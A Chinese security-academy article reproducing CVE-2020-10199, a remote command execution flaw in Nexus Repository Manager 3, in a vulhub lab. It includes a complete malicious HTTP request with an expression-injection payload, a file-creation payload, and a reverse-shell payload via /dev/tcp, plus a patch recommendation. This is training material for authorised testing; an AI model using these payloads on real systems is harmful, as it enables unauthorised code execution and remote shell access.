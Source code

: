 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4vqAvwv0CB_8g3bsyNZyGQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6pRiabDicuyO5uBZsDB68SyC0XxgOZhLhlViaOZ1YCIFFeMJjrXWeooBlQ1e4FbKVVYYVGyuZZkicfBA/640?wx_fmt=gif)

本文由 “网络安全检测与防护技术国家地方联合工程研究中心深圳分中心——东塔网络安全学院” 总结归纳

**Nexus Repository Manager 3 远程命令执行漏洞复现（CVE-2020-10199）**  

**0x0****0** **简介**

nexus 的全称是 Nexus Repository Manager，是 Sonatype 公司的一个产品。它是一个强大的仓库管理器，极大地简化了内部仓库的维护和外部仓库的访问。

主要用它来搭建公司内部的 maven 私服。但是它的功能不仅仅是创建 maven 私有仓库这么简单，还可以作为 nuget、docker、npm、bower、pypi、rubygems、git lfs、yum、go、apt 等的私有仓库，功能非常强大。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzu38WTOibjNicGjqxrYAqMegUTKQwcEfEW0oYqO2ArbP9TfdcRDnrtN4fw/640?wx_fmt=png) 

**0x01 漏洞概述**

在 Nexus Repository Manager OSS/Pro 3.21.1 及之前的版本中，由于某处功能安全处理不当，导致经过授权认证的攻击者，可以在远程通过构造恶意的 HTTP 请求，在服务端执行任意恶意代码，获取系统权限。**此漏洞的利用需要攻击者具备任意类型的账号权限**。

**0x02 影响版本**

Nexus Repository Manager OSS/Pro 3.x <= 3.21.1

**0x03 环境搭建**

1、本次漏洞环境使用 vulhub 搭建，在有 docker 环境的虚拟机中下载

git clone https://github.com/vulhub/vulhub.git

2、进入漏洞目录，执行 docker-compose up -d 命令拉取漏洞环境

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzu4BLrQ2OWAJ2oyubk8ad7Cvoeic4QIY0l82CSuadBc07HOUpqSZlSZzw/640?wx_fmt=png)

3、看到绿色的 done 表示拉取成功，在浏览器访问 http://your-ip:8081 查看页面

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzucQGmqYMZRbjfa0Fjb5PamMiavcE5AGyV5Ylm1aMLs0xfPYGDq9ibZZUw/640?wx_fmt=png) 

**0x04 漏洞复现**

1、首先使用账号密码 admin/admin 登录后台

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzuUTfW93WhxndX6K8RJibcNwwKINuia7KkDLgtTxzIicXXYGhJXen0EvKMA/640?wx_fmt=png)

2、登录后使用 f12 找到 cookie 复制当前的 csrf-Token

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzulekqlu3l7icUP8O68xMiaePhjBZQ7w3mg9mu8zyHAPmht3X4C2tERicaw/640?wx_fmt=png)

3、使用 burp 进行抓包，替换以下数据包，然后把自己的 cookie 和 csrf-Token 粘贴上去，然后发包即可看到执行了 9*9

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 172.16.1.147:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
NX-ANTI-CSRF-TOKEN: 0.16290768329434402
Content-Type: application/json
Accept: */*
Origin: http://172.16.1.147:8081
Referer: http://172.16.1.147:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.16290768329434402; NXSESSIONID=69d8dc11-45ac-44b6-aa68-65ca1d6b68ff
Connection: close


{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{9*9}"]
  }
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzuHSptufd4oViaUCeJB4ichRiau0GkGC3IFKySZSpg9GZ2lxvGlMqM6frGA/640?wx_fmt=png) 

4、把执行 9*9 修改为创建一个文件，进入 docker 中查看创建成功

$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzumviaWkRjqiatb7I5vFAn9PSflEaecLu1aEyRz1dJHdScFMOKT9tWZWCg/640?wx_fmt=png) 

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzullk2MFz71ta77dTk62RHEsVNcZa3Z2kooDm0AzTSabxYuRibJScSALA/640?wx_fmt=png) 

5、执行反弹 shell 把执行写入文件的 payload 修改成反弹 shell 的命令，使用 nc 进行监听，点击发送查看 nc 的监听看到返回了 shell

"$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/ip/port<&1')}"

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzulVWxy9R5ic9FBHYiciaH1X6VoibjocJUcHJjzG7YtDH44S2pn41R2dQgZg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzuRcLhs0ePTGic5c5ibKORUv6yqYWFFs16gDWM1EZobNO4upVagf5GABEw/640?wx_fmt=png) 

**0x0****5** **修复建议**

1、官方已发布新版本修复了该漏洞，建议升级至最新版本

参考链接：

https://mp.weixin.qq.com/s/CAtsX3yP81mULbMDTo0J1A

免责申明：   

本项目仅进行信息搜集，漏洞探测工作，无漏洞利用、攻击性行为，发文初衷为仅为方便安全人员对授权项目完成测试工作和学习交流使用。

请使用者遵守当地相关法律，勿用于非授权测试，勿用于非授权测试，勿用于非授权测试（重要的事情说三遍），如作他用所承受的法律责任一概与东塔网络安全学院无关！

东塔网络安全学院在各大平台均上线了各项活动和学习内容，快快登录以下各大平台学习起来吧~  

微博、腾讯课堂、知乎、今日头条、抖音：

东塔网络安全学院

哔哩哔哩：东塔网络安全

了解更多活动和咨询欢迎微信添加：dongtakefu

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzuqES8apgRvZc1oVC9P9IhyLD0IWd9Expib4WHzLRdRfq43T2H0ibVpTog/640?wx_fmt=jpeg)

- 免费获取学习资料

电子书籍、试听课程 -

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzuicUoiaoK9OaXWolfN0Hec20wHXSO5OicWic6ib10uWKORf8tFic9DTiclty5w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzuuze9sQNwbFKohkcSpFFemC9a4Ie5MXZdbeEorE2MicSbmZ14UEHicicdg/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzubUDe92D3WXDfNqlBpvA9dR7fpJWxIP6kXzfVvOCLMmwIMlYR7kXnhw/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/UKJ0CBLX4GqQwatjQSeJFzgicicShJEnzuvpqz7N6f1aFhX4tDmdRM9gZWKW7VjrnBTtf57WWptjwHKp2ZbEXGHA/640?wx_fmt=png)

点在看